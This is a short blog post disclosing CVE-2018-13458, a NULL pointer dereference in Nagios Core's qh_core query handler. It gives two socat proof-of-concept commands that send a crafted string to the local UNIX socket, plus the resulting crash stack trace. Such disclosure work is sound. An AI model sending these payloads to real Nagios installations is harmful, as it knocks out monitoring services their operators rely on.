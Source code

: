 ```yaml
---
layout: post
title: "[CVE-2018-13458] Nagios Core qh_core Denial of Service"
date: 2018-07-09
categories:
    - blog
tags:
    - denial of service
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -

#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
